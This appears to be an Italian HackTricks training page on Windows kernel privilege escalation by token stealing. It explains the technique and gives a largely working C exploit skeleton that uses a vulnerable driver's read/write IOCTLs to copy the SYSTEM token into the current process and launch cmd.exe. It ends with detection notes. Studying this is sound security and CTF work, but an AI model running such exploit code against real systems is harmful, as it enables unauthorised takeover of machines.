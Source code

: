 # Windows kernel EoP: Token stealing with arbitrary kernel R/W

{{#include ../../banners/hacktricks-training.md}}

## Panoramica

Se un driver vulnerabile espone un IOCTL che fornisce a un attacker primitive di lettura e/o scrittura arbitrary nel kernel, elevare a NT AUTHORITY\SYSTEM può spesso essere ottenuto rubando un SYSTEM access token. La tecnica copia il puntatore Token dall'EPROCESS di un processo SYSTEM nell'EPROCESS del processo corrente.

Perché funziona:
- Ogni processo ha una struttura EPROCESS che contiene (tra gli altri campi) un Token (in realtà un EX_FAST_REF a un oggetto token).
- Il processo SYSTEM (PID 4) possiede un token con tutti i privilegi abilitati.
- Sostituendo l'EPROCESS.Token del processo corrente con il puntatore al token di SYSTEM, il processo corrente verrà eseguito come SYSTEM immediatamente.

> Gli offset in EPROCESS variano tra le versioni di Windows. Determinali dinamicamente (symbols) o usa costanti specifiche per la versione. Ricorda anche che EPROCESS.Token è un EX_FAST_REF (i 3 bit bassi sono flag del reference count).

## Passaggi ad alto livello

1) Individua la base di ntoskrnl.exe e risolvi l'indirizzo di PsInitialSystemProcess.
- Dalla modalità utente, usa NtQuerySystemInformation(SystemModuleInformation) o EnumDeviceDrivers per ottenere le base dei driver caricati.
- Aggiungi l'offset di PsInitialSystemProcess (da symbols/reversing) alla base del kernel per ottenere il suo indirizzo.
2) Leggi il puntatore a PsInitialSystemProcess → questo è un puntatore kernel all'EPROCESS di SYSTEM.
3) Dall'EPROCESS SYSTEM, leggi gli offset UniqueProcessId e ActiveProcessLinks per attraversare la lista doppiamente collegata delle strutture EPROCESS (ActiveProcessLinks.Flink/Blink) finché non trovi l'EPROCESS il cui UniqueProcessId è uguale a GetCurrentProcessId(). Conserva entrambi:
- EPROCESS_SYSTEM (per SYSTEM)
- EPROCESS_SELF (per il processo corrente)
4) Leggi il valore del token di SYSTEM: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset).
- Maschera i 3 bit bassi: Token_SYS_masked = Token_SYS & ~0xF (comunemente ~0xF o ~0x7 a seconda della build; su x64 i 3 bit bassi sono usati — mask 0xFFFFFFFFFFFFFFF8).
5) Opzione A (comune): conserva i 3 bit bassi dal token corrente e incollali sul puntatore di SYSTEM per mantenere coerente il reference count incorporato.
- Token_ME = *(EPROCESS_SELF + TokenOffset)
- Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) Scrivi Token_NEW in (EPROCESS_SELF + TokenOffset) usando la tua primitive di kernel write.
7) Il processo corrente è ora SYSTEM. Facoltativamente avvia un nuovo cmd.exe o powershell.exe per confermare.

## Pseudocode

Di seguito uno scheletro che usa solo due IOCTL di un driver vulnerabile, uno per lettura kernel di 8 byte e uno per scrittura kernel di 8 byte. Sostituisci con l'interfaccia del tuo driver.
```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
struct { uint64_t addr, val; } in; DWORD ret;
in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
LPVOID drivers[1024]; DWORD cbNeeded;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
return (uint64_t)drivers[0]; // first is typically ntoskrnl
}
return 0;
}

int main(void) {
HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) return 1;

// 1) Resolve PsInitialSystemProcess
uint64_t nt = get_nt_base();
uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

// 2) Read SYSTEM EPROCESS
uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

// 3) Walk ActiveProcessLinks to find current EPROCESS
DWORD myPid = GetCurrentProcessId();
uint64_t cur = EPROC_SYS; // list is circular
uint64_t EPROC_ME = 0;
do {
uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
} while (cur != EPROC_SYS);

// 4) Read tokens
uint64_t tok_sys, tok_me;
kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

// 5) Mask EX_FAST_REF low bits and splice refcount bits
uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

// 6) Write back
kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

// 7) We are SYSTEM now
system("cmd.exe");
return 0;
}
```
Note:
- Offset: Usa WinDbg’s `dt nt!_EPROCESS` con i PDBs del target, o un runtime symbol loader, per ottenere offset corretti. Non hardcodare ciecamente.
- Mask: Su x64 il token è un EX_FAST_REF; i 3 bit meno significativi sono bit del conteggio dei riferimenti. Mantenere i bit bassi originali del tuo token evita inconsistenze immediate nel conteggio dei riferimenti.
- Stability: Preferisci elevare il processo corrente; se elevi un helper di breve durata potresti perdere SYSTEM quando termina.

## Rilevamento e mitigazione
- Il caricamento di driver di terze parti non firmati o non attendibili che espongono potenti IOCTLs è la causa principale.
- Kernel Driver Blocklist (HVCI/CI), DeviceGuard e le regole di Attack Surface Reduction possono impedire il caricamento di driver vulnerabili.
- EDR può monitorare sequenze IOCTL sospette che implementano arbitrary read/write e gli scambi di token.

## Riferimenti
- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)](https://www.fuzzysecurity.com/tutorials/expDev/17.html)

{{#include ../../banners/hacktricks-training.md}}
